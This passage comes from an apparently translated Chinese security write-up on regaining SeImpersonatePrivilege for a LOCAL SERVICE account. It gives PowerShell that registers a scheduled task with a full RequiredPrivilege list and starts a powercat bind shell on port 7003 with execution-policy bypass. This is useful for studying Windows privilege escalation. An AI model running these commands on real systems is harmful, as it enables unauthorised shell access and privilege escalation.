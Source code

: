 我们可以使用`New-ScheduledTaskPrincipal`命令来创建`Principal`，该命令接受如下参数：

```
New-ScheduledTaskPrincipal
   [[-Id] &lt;String&gt;]
   [[-RunLevel] &lt;RunLevelEnum&gt;]
   [[-ProcessTokenSidType] &lt;ProcessTokenSidTypeEnum&gt;]
   [[-RequiredPrivilege] &lt;String[]&gt;]
   [-UserId] &lt;String&gt;
   [[-LogonType] &lt;LogonTypeEnum&gt;]
   [-CimSession &lt;CimSession[]&gt;]
   [-ThrottleLimit &lt;Int32&gt;]
   [-AsJob]
   [&lt;CommonParameters&gt;]
```

这就是微软在“强化任务安全性”中提到的`RequiredPrivilege`选项，该参数指定了计划任务在运行与主体关联的任务时所使用的用户权限数组。

> 备注：大家可以访问[此处](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)了解完整的特权常量。

了解这些知识点后，现在我们可以开始试验一下。

首先，我们创建包含所有特权的`String`数组，然而将该数组以参数形式传递给`New-ScheduledTaskPrincipal`，用来创建适用于新计划任务的`Principal`对象。

```
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeShutdownPrivilege", "SeUndockPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs
```

然后，使用与前文相同的命令，通过正确的参数指定我们的`Principal`对象：

```
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `". C:\TOOLS\powercat.ps1; powercat -l -p 7003 -ep`""
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask2" -Principal $TaskPrincipal
# Start the task
Start-ScheduledTask -TaskName "SomeTask2"
```

[![](https://p3.ssl.qhimg.com/t01d96258c2a25771dd.png)](https://p3.ssl.qhimg.com/t01d96258c2a25771dd.png)

非常好，至少没有触发任何错误或异常。接下来试着连接新的bindshell，看一下是否能达到预期效果：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016be1831fbacaa740.png)

的确成功了！我们最终拿回了`SeImpersonatePrivilege`权限。
